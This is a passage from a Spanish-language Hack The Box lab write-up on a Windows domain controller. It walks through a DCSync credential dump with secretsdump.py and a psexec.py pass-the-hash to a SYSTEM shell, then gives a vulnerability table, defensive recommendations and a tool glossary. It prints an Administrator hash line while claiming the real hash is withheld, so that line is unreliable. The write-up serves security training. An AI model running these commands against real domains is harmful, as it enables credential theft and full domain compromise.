

### ¿Qué es el ataque DCSync y por qué funciona?

Buscando el nodo `svc_loanmgr`, el grafo revela que tiene los derechos **`GetChangesAll`** y **`GetChanges`** sobre el objeto del dominio:




> 💡 **`GetChanges`** y **`GetChangesAll`** son los dos derechos extendidos de Active Directory (`DS-Replication-Get-Changes` y `DS-Replication-Get-Changes-All`) que un controlador de dominio necesita conceder a otro para **replicar** el directorio entre ellos — es el mecanismo legítimo de replicación multi-maestro de AD. Cuando una cuenta normal (no un DC) tiene ambos derechos sobre el dominio, puede usar el protocolo de replicación (**MS-DRSR**) para pedirle al controlador de dominio real que le "replique" las credenciales de **cualquier cuenta**, incluido el Administrador — exactamente como si fuera otro DC. Esto es el ataque **DCSync**: no requiere ejecutar código en el DC ni ninguna vulnerabilidad de software, solo abusa de un permiso de delegación mal asignado.

Explotamos esos permisos con `secretsdump`:

```bash
secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.129.95.180
```

> 🛠️ **`secretsdump.py`** (Impacket) — con credenciales de dominio y los derechos de replicación adecuados, implementa el protocolo DRSUAPI/MS-DRSR para solicitar al DC el volcado completo de `NTDS.dit` (todos los hashes NT y claves Kerberos del dominio) sin necesidad de acceso a disco ni ejecución de código en el controlador.



```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
```

> 🔒 El hash NT real de Administrator no se publica en este writeup a propósito, para no regalar la respuesta a quien esté practicando esta misma máquina — el comando exacto para obtenerlo queda documentado arriba.

Con el hash de Administrator, pass-the-hash con `psexec`:

```bash
psexec.py EGOTISTICAL-BANK.LOCAL/Administrator@10.129.95.180 cmd.exe -hashes :<hash NT de Administrator>
```

> 🛠️ **`psexec.py`** (Impacket) — recreación del PsExec de Sysinternals: sube un binario de servicio temporal a un share administrativo (`ADMIN$`), lo registra como servicio vía `SVCManager` y lo arranca, obteniendo una shell remota con los privilegios de la cuenta usada para autenticar — aquí, Administrator, vía pass-the-hash.



```
whoami /all
```



```
nt authority\system
```

> 💡 `psexec` ejecuta el servicio con privilegios de **`NT AUTHORITY\SYSTEM`**, no solo como Administrator — el nivel máximo de privilegio en Windows.

## 5. Post-explotación y flags

```
dir C:\Users\Administrator\Desktop
```



`root.txt` (34 bytes) confirmado en el escritorio de Administrator — compromiso total del controlador de dominio.

> 🔒 El contenido exacto de `user.txt` y `root.txt` no se publica en este writeup a propósito, para no regalar la respuesta a quien esté practicando esta misma máquina — el camino completo hasta cada uno queda documentado en las secciones §4 y §5.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Enumeración LDAP anónima habilitada en el DC | Puerto 389 | Filtración de nombres de usuario sin ninguna credencial |
| Página web corporativa con nombres completos de empleados | `about.html` | Permite inferir el formato de usuario de toda la plantilla (OSINT pasivo) |
| Cuenta de dominio con preautenticación Kerberos deshabilitada | `fsmith` | **AS-REP Roasting**: hash crackeable sin interactuar con la cuenta |
| Contraseña débil, presente en `rockyou.txt` | Cuenta `fsmith` | Acceso autenticado al dominio tras crackear el hash |
| Credenciales de AutoLogon en texto plano en el registro | `svc_loanmgr` | Robo trivial de credenciales con acceso de lectura al registro |
| Derechos de replicación (`GetChangesAll`/`GetChanges`) sobre el dominio asignados a una cuenta de servicio | `svc_loanmgr` | Ataque **DCSync**: volcado de todos los hashes del dominio, incluido Administrator |

## Recomendaciones defensivas

- Deshabilitar la enumeración LDAP anónima en el controlador de dominio.
- No publicar nombres completos de empleados en páginas web públicas que permitan inferir el formato de usuario corporativo.
- Habilitar la preautenticación Kerberos en todas las cuentas de dominio (revisar periódicamente el flag `DONT_REQUIRE_PREAUTH`).
- Exigir contraseñas robustas y políticas de rotación en todas las cuentas, incluidas las de servicio.
- Nunca usar AutoLogon con credenciales de dominio almacenadas en el registro; si es imprescindible, usar Credential Guard o una bóveda de credenciales dedicada.
- Auditar y restringir estrictamente qué cuentas tienen derechos de replicación (`Replicating Directory Changes` / `Replicating Directory Changes All`) sobre el dominio — solo controladores de dominio legítimos y cuentas de backup estrictamente necesarias.
- Monitorizar solicitudes de replicación DRS inusuales (fuera de los propios DCs) como indicador de un posible ataque DCSync.

## 7. Glosario de herramientas y comandos

| Herramienta / comando | Para qué sirve |
|------------------------|-----------------|
| `ping` / `nmap` | Descubrimiento de host y enumeración de puertos/servicios |
| `enum-nmap` | Script propio que resume la salida de Nmap |
| `ldapsearch -x` | Cliente LDAP de línea de comandos; `-x` permite un *bind* simple, incluido el anónimo si el servidor lo permite |
| **Enumeración LDAP anónima** | Técnica de reconocimiento de AD que no requiere credenciales ni genera eventos de autenticación fallida |
| **OSINT web (página "About Us")** | Las páginas corporativas pensadas para marketing/RRHH suelen filtrar, sin saberlo, la plantilla completa de empleados |
| `kerbrute userenum` | Enumera usuarios válidos de Kerberos abusando de la respuesta diferenciada del KDC ante un `AS-REQ`, sin necesidad de contraseña correcta |
| **AS-REP Roasting** (`GetNPUsers.py`) | Obtiene un hash crackeable de cualquier cuenta con la preautenticación Kerberos deshabilitada, sin conocer su contraseña |
| `hashcat -m 18200` | Ataque de diccionario sobre hashes AS-REP (Kerberos 5, etype 23) |
| `evil-winrm` | Cliente de sesiones remotas de administración de Windows (WinRM) |
| `net localgroup "Remote Management Users"` | Lista las cuentas con permiso de conexión WinRM en la máquina |
| **WinPEAS** | Enumeración automática de vectores de escalada de privilegios en Windows, incluidas credenciales de AutoLogon |
| **Credenciales de AutoLogon** | Windows las guarda en texto plano en el registro (`Winlogon`) para iniciar sesión sin pedir contraseña; legibles por cualquiera con acceso al registro |
| `bloodhound-python` | Recolector de BloodHound para Linux; vuelca usuarios, grupos, ACLs y sesiones del dominio en JSON |
| **BloodHound** | Analiza gráficamente las relaciones de AD para encontrar rutas de escalada no evidentes (ACL abuse, delegación, anidamiento de grupos) |
| **DCSync** (`GetChanges`/`GetChangesAll`) | Abuso de los permisos de replicación de AD para solicitar al DC las credenciales de cualquier cuenta, sin ejecutar código en el controlador |
| `secretsdump.py` | Implementa el protocolo de replicación DRSUAPI/MS-DRSR para volcar `NTDS.dit` (todos los hashes del dominio) de forma remota |
| **Pass-the-hash (PtH)** | Autenticarse con el hash NT directamente, sin necesidad de la contraseña en claro |
| `psexec.py` | Recreación de PsExec; sube y ejecuta un servicio temporal en la víctima, obteniendo una shell con los privilegios de la cuenta usada |

---

*Escrito por [Arabot](https://github.com/Caan31) · Hack The Box · práctica CPTS · 2026*
